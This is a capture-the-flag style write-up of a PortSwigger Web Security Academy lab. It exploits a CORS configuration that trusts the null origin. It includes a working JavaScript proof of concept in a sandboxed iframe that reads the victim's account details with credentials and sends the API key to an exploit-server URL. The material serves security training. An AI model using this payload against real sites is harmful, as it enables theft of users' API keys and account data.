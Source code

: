 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-16T15:22:00Z
modDatetime: 2024-10-16T09:12:47.400Z
title: CORS vulnerability with trusted null origin
slug: cors-portswigger-lab-3
featured: false
draft: false
tags:
  - BSCP
  - CORS
description:
  This website has an insecure CORS configuration in that it trusts the "null" origin. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials wiener:peter    
---
```


## Introduction 

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

## Solution 

Same as a previous lab but the misconfiguration here is it trusts the `null` origin and you can confirm it by sending the following header `Origin: null` and In the response, `ACAO` responds with `null` as well through the `/accountDetails` endpoint 

![](../../assets/images/bscp/cors/cors-11.png)

<p>
  &gt; If ACAO sets to <mark>null</mark>, then it allows the server able to call the 
  <code>file://</code> protocol, set up a sandboxed environment, and create an 
  <code>iframe</code> as well.
</p>

Then, with the following POC we are creating sandboxed iframe which will allow the iframe to run the scripts, allow the form submission and takes care of window navigation as well **(Allows the iframe to navigate the top-level browsing context)** 

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a9200df043194ec83c1559600ec001f.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a3d00df0402945a83bd545801310064.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```

Once after delivering the above POC to victim and checking the access log shows that we have got the administrator API key

![](../../assets/images/bscp/cors/cors-12.png)

Take the API key and submit it as solution and solves the lab 

![](../../assets/images/bscp/cors/cors-13.png)